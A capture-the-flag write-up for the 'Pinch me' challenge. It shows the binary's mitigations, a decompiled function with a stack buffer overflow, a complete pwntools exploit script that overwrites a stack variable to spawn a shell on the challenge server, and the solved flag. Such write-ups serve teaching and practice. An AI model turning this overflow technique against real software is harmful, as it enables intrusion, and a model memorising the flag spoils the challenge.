 # Pinch me

This should be easy!
nc dctf1-chall-pinch-me.westeurope.azurecontainer.io 7480

## Challenge

A buffer overflow challenge to overwrite a stack variable to a specific value.

### Mitigations

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

### Vulnerable Function

```c
void sym.vuln(void)
{
    char *s;
    uint32_t var_8h;
    uint32_t var_4h;

    var_4h = 0x1234567;
    var_8h = 0x89abcdef;
    sym.imp.puts("Is this a real life, or is it just a fanta sea?");
    sym.imp.puts("Am I dreaming?");
    sym.imp.fgets(&s, 100, _reloc.stdin);
    if (var_8h == 0x1337c0de) {
        sym.imp.system("/bin/sh");
    } else {
        if (var_4h == 0x1234567) {
            sym.imp.puts("Pinch me!");
        } else {
            sym.imp.puts("Pinch me harder!");
        }
    }
    return;
}
```

## Solution

We can overflow the buffer to overwrite variables on the stack.
Specifically, by overwriting `var_8h` to 0x1337c0de, we can make the process spawn a shell.

## Exploit

```py
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host dctf1-chall-pinch-me.westeurope.azurecontainer.io --port 7480 pinch_me
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('pinch_me')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'dctf1-chall-pinch-me.westeurope.azurecontainer.io'
port = int(args.PORT or 7480)

def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)

io = start()

targetVal = 0x1337c0de

payload = flat({
    0x20-0x8: targetVal,
    })

io.sendline(payload)

io.interactive()
```

## Flag

`dctf{y0u_kn0w_wh4t_15_h4pp3n1ng_b75?}`

